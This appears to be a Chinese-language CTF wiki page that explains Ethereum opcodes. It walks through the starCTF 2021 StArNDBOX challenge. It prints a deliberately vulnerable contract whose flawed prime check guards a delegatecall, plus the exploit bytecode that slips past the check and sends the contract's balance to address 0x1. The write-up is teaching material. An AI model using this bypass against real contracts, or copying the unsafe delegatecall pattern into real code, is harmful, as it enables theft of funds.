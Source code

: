 # Ethereum Opcodes
Ethereum 中的 opcodes 有 142 種，部分常見的 opcodes 如下所示：

| Uint8 | Mnomonic |      Stack Input       | Stack Output |              Expression              |
| :---: | :------: | :--------------------: | :----------: | :----------------------------------: |
|  00   |   STOP   |           -            |      -       |                STOP()                |
|  01   |   ADD    |      \| a \| b \|      | \| a + b \|  |                a + b                 |
|  02   |   MUL    |      \| a \| b \|      | \| a * b \|  |                a * b                 |
|  03   |   SUB    |      \| a \| b \|      | \| a - b \|  |                a - b                 |
|  04   |   DIV    |      \| a \| b \|      | \| a // b \| |                a // b                |
|  51   |  MLOAD   |      \| offset \|      | \| value \|  |   value = memory[offset:offset+32]   |
|  52   |  MSTORE  | \| offset \| value \|  |      -       |   memory[offset:offset+32] = value   |
|  54   |  SLOAD   |       \| key \|        | \| value \|  |         value = storage[key]         |
|  55   |  SSTORE  |   \| key \| value \|   |      -       |         storage[key] = value         |
|  56   |   JUMP   |   \| destination \|    |      -       |          $pc = destination           |
|  5B   | JUMPDEST |           -            |      -       |                  -                   |
|  F3   |  RETURN  | \| offset \| length \| |      -       | return memory[offset:offset+length]  |
|  FD   |  REVERT  | \| offset \| length \| |      -       | revert(memory[offset:offset+length]) |

!!! info 
    JUMPDEST 是跳轉指令的 destination，跳轉指令不能跳轉到沒有 JUMPDEST 的地方。

更多的詳細 opcodes 信息可以查看 [ethervm.io](https://ethervm.io)。

## 例子
以 startCTF 2021 的 StArNDBOX 一題爲例講解一下 opcodes 的題目。

本題會在部署挑戰合約的時候傳入 100 wei 到合約中，我們的目標是將合約的 balance 清空。題目合約的源碼如下：

```solidity
pragma solidity ^0.5.11;

library Math {
    function invMod(int256 _x, int256 _pp) internal pure returns (int) {
        int u3 = _x;
        int v3 = _pp;
        int u1 = 1;
        int v1 = 0;
        int q = 0;
        while (v3 > 0){
            q = u3/v3;
            u1= v1;
            v1 = u1 - v1*q;
            u3 = v3;
            v3 = u3 - v3*q;
        }
        while (u1<0){
            u1 += _pp;
        }
        return u1;
    }
    
    function expMod(int base, int pow,int mod) internal pure returns (int res){
        res = 1;
        if(mod > 0){
            base = base % mod;
            for (; pow != 0; pow >>= 1) {
                if (pow & 1 == 1) {
                    res = (base * res) % mod;
                }
                base = (base * base) % mod;
            }
        }
        return res;
    }
    function pow_mod(int base, int pow, int mod) internal pure returns (int res) {
        if (pow >= 0) {
            return expMod(base,pow,mod);
        }
        else {
            int inv = invMod(base,mod);
            return expMod(inv,abs(pow),mod);
        }
    }
    
    function isPrime(int n) internal pure returns (bool) {
        if (n == 2 ||n == 3 || n == 5) {
            return true;
        } else if (n % 2 ==0 && n > 1 ){
            return false;
        } else {
            int d = n - 1;
            int s = 0;
            while (d & 1 != 1 && d != 0) {
                d >>= 1;
                ++s;
            }
            int a=2;
            int xPre;
            int j;
            int x = pow_mod(a, d, n);
            if (x == 1 || x == (n - 1)) {
                return true;
            } else {
                for (j = 0; j < s; ++j) {
                    xPre = x;
                    x = pow_mod(x, 2, n);
                    if (x == n-1){
                        return true;
                    }else if(x == 1){
                        return false;
                    }
                }
            }
            return false;
        }
    }
    
    function gcd(int a, int b) internal pure returns (int) {
        int t = 0;
        if (a < b) {
            t = a;
            a = b;
            b = t;
        }
        while (b != 0) {
            t = b;
            b = a % b;
            a = t;
        }
        return a;
    }
    function abs(int num) internal pure returns (int) {
        if (num >= 0) {
            return num;
        } else {
            return (0 - num);
        }
    }
    
}

contract StArNDBOX{
    using Math for int;
    constructor()public payable{
    }
    modifier StAr() {
        require(msg.sender != tx.origin);
        _;
    }
    function StArNDBoX(address _addr) public payable{
        
        uint256 size;
        bytes memory code;
        int res;
        
        assembly{
            size := extcodesize(_addr)
            code := mload(0x40)
            mstore(0x40, add(code, and(add(add(size, 0x20), 0x1f), not(0x1f))))
            mstore(code, size)
            extcodecopy(_addr, add(code, 0x20), 0, size)
        }
        for(uint256 i = 0; i < code.length; i++) {
            res = int(uint8(code[i]));
            require(res.isPrime() == true);
        }
        bool success;
        bytes memory _;
        (success, _) = _addr.delegatecall("");
        require(success);
    }
}
```

可以看到題目的 `StArNDBoX` 函數可以獲取任意地址的合約並檢測該合約的每個字節是否爲質數，如果通過檢查則使用 `delegatecall` 來調用目標合約。

但由於該合約中的 `isPrime` 函數並不是完整的質數檢查函數，`00` 和 `01` 也可以通過檢查，因此我們可以構造如下的字節碼：

```
// 0x6100016100016100016100016100016100650361000161fbfbf1
61 00 01 | PUSH2 0x0001
61 00 01 | PUSH2 0x0001
61 00 01 | PUSH2 0x0001
61 00 01 | PUSH2 0x0001
61 00 01 | PUSH2 0x0001
61 00 65 | PUSH2 0x0065
03       | SUB
61 00 01 | PUSH2 0x0001
61 fb fb | PUSH2 0xfbfb
f1       | CALL
```

來執行 `address(0x0001).call.gas(0xfbfb).value(0x0065 - 0x0001)` 語句，也就是將題目合約中的 balance 轉到 0x1 處，從而清空 balance 滿足得到 flag 的條件。


## 題目

### starCTF 2021
- 題目名稱 StArNDBOX

### RealWorld 2019
- 題目名稱 Montagy

### QWB 2020
- 題目名稱 EasySandbox
- 題目名稱 EGM

### 華爲鯤鵬計算 2020
- 題目名稱 boxgame

!!! note
    注：題目附件相關內容可至 [ctf-challenges/blockchain](https://github.com/ctf-wiki/ctf-challenges/tree/master/blockchain) 倉庫尋找。

## 參考
- [Ethervm](https://ethervm.io)
- [starCTF 2021 - StArNDBOX](https://github.com/sixstars/starctf2021/tree/main/blockchain-StArNDBOX)